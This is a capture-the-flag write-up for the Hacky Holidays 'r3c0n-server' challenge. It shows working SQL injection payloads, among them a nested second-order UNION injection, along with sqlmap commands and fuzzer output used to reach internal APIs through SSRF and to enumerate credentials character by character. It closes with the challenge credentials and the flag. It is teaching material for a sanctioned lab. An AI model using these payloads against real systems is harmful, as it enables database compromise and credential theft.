


# r3c0n-server

**Challenge URL:** https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59

## Methodology
The landing page showed 3 "album" pages, which all lead to `/album?hash=<ID>` with a 6-character identifier for each "album":

<p align="center">
  
</p>

> `Attack Box` is a login page that as we already know by now, is not vulnerable to authentication bypass.

```html
<a href="/r3c0n_server_4fdk59/album?hash=jdh34k">Xmas 2020</a>
<a href="/r3c0n_server_4fdk59/album?hash=59grop">Xmas 2019</a>
<a href="/r3c0n_server_4fdk59/album?hash=3dir42">Xmas 2018</a>
```

Inspecting the "Xmas 2020" page, we see 3 images being retrieved from `/picture`. However, the way they are retrieved looks extremely suspicious:

<p align="center">
  
</p>

```html


```

It appears that `/picture` expects a `data` parameter with the value set to some base-64 encoded string. Decoding the first base-64 string gives:

```bash
$ echo eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcL2RiNTA3YmRiMTg2ZDMzYTcWViMDQ1NjAzMDIwY2VjLmpwZyIsImF1dGgiOiJiYmYyOTVkNjg2YmQyYWYzNDZmY2Q4MGM1Mzk4ZGU5YSJ9 | base64 -d; echo

{"image":"r3c0n_server_4fdk59\/uploads\/db507bdb186d33a719eb045603020cec.jpg","auth":"bbf295d686bd2af346fcd80c5398de9a"}
```

So, there is actually an `/uploads` directory. 🤔 However, manually accessing this image is not possible:

<p align="center">
  
</p>

Tampering with the `image` value without updating the `auth` value also yields an error:

```bash
$ echo '{"image":"r3c0n_server_4fdk59\/uploads\/nonexistent.jpg","auth":"bbf295d686bd2af346fcd80c5398de9a"}' | base64 -w 0; echo

eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcL25vbmV4aXN0ZW50LmpwZyIsImF1dGgiOiJiYmYyOTVkNjg2YmQyYWYzNDZmY2Q4MGM1Mzk4ZGU5YSJ9Cg==
```

<p align="center">
  
</p>

Maybe we are lacking a way to generate a valid `auth` value...


### API For All?
There is also a page at `/api` which reveals the following:

<p align="center">
  
</p>

However, trying to visit any end-point results in a `401 Unauthorized` response from the server (unable to confirm if that end-point exists):

<p align="center">
  
</p>

Well, are we stuck?!

### Back to Basics (somewhat)

I went to try and see if there were any vulnerability that allows me to get even a small foothold on this challenge. True enough, I found that the `hash` parameter of the `/album` end-point was vulnerable to Blind SQL injection! Unlike [challenge 9](evil-quiz.md), where the objective was straightforward, I decided to use sqlmap to help me dump the database contents. 😅

Database Dump:
```
back-end DBMS: MySQL 8
Database: recon
Table: photo
[6 entries]
+----+----------+--------------------------------------+
| id | album_id | photo                                |
+----+----------+--------------------------------------+
| 1  | 1        | 0a382c6177b04386e1a45ceeaa812e4e.jpg |
| 2  | 1        | 1254314b8292b8f790862d63fa5dce8f.jpg |
| 3  | 2        | 32febb19572b12435a6a390c08e8d3da.jpg |
| 4  | 3        | db507bdb186d33a719eb045603020cec.jpg |
| 5  | 3        | 9b881af8b32ff07f6daada95ff70dc3a.jpg |
| 6  | 3        | 13d74554c30e1069714a5a9edda8c94d.jpg |
+----+----------+--------------------------------------+

Database: recon
Table: album
[3 entries]
+----+--------+-----------+
| id | hash   | name      |
+----+--------+-----------+
| 1  | 3dir42 | Xmas 2018 |
| 2  | 59grop | Xmas 2019 |
| 3  | jdh34k | Xmas 2020 |
+----+--------+-----------+
```

`sqlmap` also allows us to specify arbitrary queries, so I used one that lets me check what is happening [behind the scenes](https://www.contextis.com/en/blog/sql-inception-how-to-select-yourself) of this current SQL query:
```bash
$ sqlmap -u https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=jdh34k --sql-query="SELECT info FROM information_schema.processlist"

> [*] select * from album where hash = '__REFLECTED_VALUE__'
```
This confirms my suspicions about how `hash` is used.

However, as there is no other information in the database for me to go on, it was time to take a few steps back and think of how to put these puzzle pieces together.

---

### What We Know Thus Far

We know that the `hash` parameter at `/album` is vulnerable to SQL injection, but the database content does not reveal anything that cannot already be obtained.

Let's trace the client-server interaction:

1. At the server side, upon visiting `/album`, the `hash` parameter is used in a query to get the correct row in `album` table `(id, hash, name)` by matching the `hash` parameter with the `hash` column. 

2. Still at the server side, the server runs a SQL query which uses the row data in step 1 above (**highly likely** it's the `id` column) to query `photo` table `(id, album_id, photo)`, obtaining rows that matches the `album_id` column.

3. Still at the server side, the server creates the URL to each `photo` value retrieved in step 2 above. The anatomy of these URLs are:
`r3c0n_server_4fdk59/uploads/<photo_VALUE>`. The server also generates a hash based on this URL (along with some unknowns) that will be sent in the `auth` parameter. Next, the server base-64 encodes both of the generated URL and `auth` in the pattern: `{"image": "<LINK>", "auth": "<AUTH_TOKEN>}`. Finally, this encoded string is appended to `/r3c0n_server_4fdk59/picture?data=<ENCODED_STRING>`, forming the links to the actual images.

4. The server sends a response which contains the image links in step 3 above.

5. The client will automatically make the requests to retrieve the images based on the image links received.

6. Server checks if the `image` parameter is accompanied by a valid `auth` parameter. If so, server responds with the images.

In short, my assumption on how things are working at the back:

```php
// pseudo-code

$res = SELECT * FROM album WHERE hash = '<INPUT>';
$res2 = SELECT * FROM photo WHERE id = ' . $res["id"] . ';
```

So, there are 2 SQL queries being used, and we would need to inject into both of them. Thus, our payload is a **nested SQL injection** query. 🤯

### Payload Crafting Time!
Verify that we are able to `UNION` into the first query (since it's a `UNION`, we have to make sure that the columns matches `album` table `(INT, VARCHAR, VARCHAR)`:

```sql
' UNION SELECT 1,1,1-- -
```

<p align="center">
  
</p>

What's this?! The album title in the page has been changed! We are definitely onto something here.

Time to inject into second query via the `id` parameter of the `album` table! Similar to the first query, we will use `UNION` and ensure that the columns matches the `photo` table. The nested query is thus:

```sql
-- The string "' UNION SELECT 1,1,1-- -" will act as the "id" of the 'photo' table.
' UNION SELECT "' UNION SELECT 1,1,1-- -",1,1-- -
```

<p align="center">
  
</p>

Viola! An image tag has been **successfully** injected!

Decoding the base-64 string in the `data` param of this `/picture` link, we see that we have managed to gain control of the `image` parameter, and a valid `auth` hash has been automatically generated for us:

```bash
$ echo eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLzEiLCJhdXRoIjoiY2I4YTJhOGY1ODZhN2NkZjdjNzY4MmMxOTZiMmYyZWQifQ== | base64 -d; echo

{"image":"r3c0n_server_4fdk59\/uploads\/1","auth":"cb8a2a8f586a7cdf7c7682c196b2f2ed"}
```

This is **huge**, as it means we can now **retrieve any file** via [SSRF](https://portswigger.net/web-security/ssrf) (Server Side Request Forgery)!

In conclusion, the injection payload anatomy looks like:

```sql
' UNION SELECT "' UNION SELECT 1,1,'<PATHNAME>' -- -",1,<ELEMENTNAME>-- -
```

Remember how we couldn't access any API end-points previously? Well, it is now time to re-visit the API end-points.

### Fuzzing for APIs

There are 2 requests that needs to be made to check if a valid API end-point exists:
1. `https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=%27%20UNION%20SELECT%20%22%27%20UNION%20SELECT%201,1,%27../api/FUZZ%27%20--%20-%22,1,1--%20-`
2. `https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/picture?data=<GENERATED_PICTURE_LINK>`

Request #1 is to generate a valid link to the specified API end-point with a valid `auth` hash. Request #2 is to visit the link and see the output. If the end-point does not exist, the response will state so.

> Since the URL is fixed to `r3c0n_server_4fdk59/uploads/<photo_VALUE>`, we have to inject relative path `../api/` in order to fuzz for end-points.

<p align="center">
  
</p>

Time to whip up a simple fuzzer that will does the fuzzing for us! My fuzzer can be found [here](r3c0n-server-exploit.py) (look at the `fuzz_api()` function). After fuzzing with the `objects.txt` from [seclists](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/api/objects.txt), the results obtained were:

> False responses contain: `0`, `400`, `404` status codes

```bash
$ python script.py /usr/share/seclists/Discovery/Web-Content/api/objects.txt 

What to fuzz?
Options [1] and [2] require a valid wordlist as an argument!

[1] API
[2] API Parameters
[3] Username & Password
1

[+] Discovered end-point(s): 
  [+] ping
  [+] Link: https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLy4uXC9hcGlcL3BpbmciLCJhdXRoIjoiOTMzZTJkMzk5NWE4MmIzZmQyODE1NWQyMjg3MDk1M2YifQ==

  [+] user
  [+] Link: https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLy4uXC9hcGlcL3VzZXIiLCJhdXRoIjoiYmZiNmRkMDRlNjZlODU1NjRkZWJiYTNlN2IyMjJlMzQifQ==
```

Seems like the APIs `/api/ping` and `/api/user` are valid. However, visiting these pages brings up yet another error:

<p align="center">
  
</p>

Maybe it expects parameters?

### Fuzzing for API Parameters

I added another fuzzing function to my [fuzzer](r3c0n-server-exploit.py) (look at the `fuzz_param()` function). Using `burp-parameter-names.txt` from [seclists](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/burp-parameter-names.txt), the results  obtained were:

> False responses contain: `0`, `400` and `404` status codes

```bash
$ python script.py /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt

What to fuzz?
Options [1] and [2] require a valid wordlist as an argument!

[1] API
[2] API Parameters
[3] Username & Password
2

[+] Discovered parameters(s): 
  [+] password
  [+] Link: https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLy4uXC9hcGlcL3VzZXI/cGFzc3dvcmQ9YSIsImF1dGgiOiJjMjEwNTI2ZTMwMDRkODQwYzhmMDM5YjM5MTVlODlkMCJ9

  [+] username
  [+] Link: https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLy4uXC9hcGlcL3VzZXI/dXNlcm5hbWU9YSIsImF1dGgiOiJmMjllN2U2MjFmYmE3ZTFjZmU4MzBkYTBiODljMjhmYyJ9
```

Giving us 2 parameters `username` and `password`.

### Enumerating Credentials

It was time to enumerate the login credentials. What if the parameter values in `username` and `password` are used in a vulnerable SQL query as well? Such as:

```sql
... WHERE username LIKE ' + $_GET["username"] + ' AND password LIKE ' + $_GET["password"] + ';
```

Then, we can simply inject `<GUESS>%` and see if it matches any usernames, character by character! Trying the input `a%` shows us a `FALSE` result:

<p align="center">
  
</p>

Trying the input `_%` gives us a `TRUE` result (which made me realize this "error" earlier is a *false positive*):

<p align="center">
  
</p>

Since we have the ability to enumerate the names, it is time to include yet another function to my [fuzzer](r3c0n-server-exploit.py) (look at the `fuzz_user()` function), which will do this enumeration for us:

```bash
$ python r3c0n-server-exploit.py
What to fuzz?
Options [1] and [2] require a valid wordlist as an argument!

[1] API
[2] API Parameters
[3] Username & Password
3

[+] Discovered username:
GRINCHADMIN
[+] Discovered password:
S4NT4SUCKS
```

Giving us the credentials `GRINCHADMIN:S4NT4SUCKS`. Trying to login at the `attack-box` page with these credentials showed that it was invalid however:

<p align="center">
  
</p>

Since we obtained the credentials by loosely-matching with the `%` character, perhaps the credentials are in *lowercase*? Trying `grinchadmin:s4nt4sucks` allowed us to log in at last:

<p align="center">
  
</p>

Which at long last, gives us the flag! 🎌

We are also shown the challenge [page](https://hackyholidays.h1ctf.com/attack-box) for the [final challenge](attack-box.md).

**Flag:** `flag{07a03135-9778-4dee-a83c-7ec330728e72}`

## Thoughts
This entire challenge took at least one whole day for me, with majority of the time spent trying to gain the initial foothold. Never have I thought I would need to use a 2<sup>nd</sup> order Blind SQL injection using `UNION`. This was certainly an interesting albeit unrealistic scenario! 😅

The main rabbit hole for me was trying to make use of various X-Headers in order to spoof my IP address. After finding the initial SQL injection vulnerability, in the dumping process the local IP address was revealed. This made me fixated on the IP address spoofing route which took up a lot of time.
